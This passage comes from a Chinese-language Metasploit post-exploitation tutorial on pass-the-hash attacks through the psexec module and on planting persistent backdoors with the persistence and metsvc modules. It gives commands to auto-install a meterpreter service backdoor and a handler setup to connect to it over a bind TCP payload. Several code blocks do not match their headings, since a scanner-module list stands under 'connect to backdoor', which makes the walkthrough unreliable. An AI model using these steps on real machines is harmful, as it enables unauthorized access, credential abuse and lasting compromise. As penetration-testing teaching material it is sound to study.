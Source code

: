 [![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-8ffec58c-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-8ffec58c-998c-1.png)

2)PSExec 哈希传递

通过 smart_hashdump 获取用户哈希后，可以利用 psexec 模块进行哈希传递攻击  
前提条件：①开启 445 端口 smb 服务；②开启 admin$ 共享

```
run metsvc –h   # 查看帮助
run metsvc –A   #自动安装后门
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-900da246-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-900da246-998c-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-901e3d36-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-901e3d36-998c-1.png)

### 0x14. 后门植入

metasploit 自带的后门有两种方式启动的，一种是通过启动项启动 (persistence)，一种是通过服务启动 (metsvc)，另外还可以通过 persistence_exe 自定义后门文件。

1)persistence 启动项后门

在 C:\Users***\AppData\Local\Temp \ 目录下，上传一个 vbs 脚本  
在注册表 HKLM\Software\Microsoft\Windows\CurrentVersion\Run \ 加入开机启动项

```
msf > use exploit/multi/handler
msf > set payload windows/metsvc_bind_tcp
msf > set RHOST 192.168.159.144
msf > set LPORT 31337
msf > exploit
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-902cd47c-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-902cd47c-998c-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-9041d688-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-9041d688-998c-1.png)

**连接后门**

```
use auxiliary/scanner/http/dir_scanner
use auxiliary/scanner/http/jboss_vulnscan
use auxiliary/scanner/mssql/mssql_login
use auxiliary/scanner/mysql/mysql_version
use auxiliary/scanner/oracle/oracle_login
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232243-9051352e-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232243-9051352e-998c-1.png)

2)metsvc 服务后门

在 C:\Users***\AppData\Local\Temp \ 上传了三个文件（metsrv.x86.dll、metsvc-server.exe、metsvc.exe），通过服务启动，服务名为 meterpreter
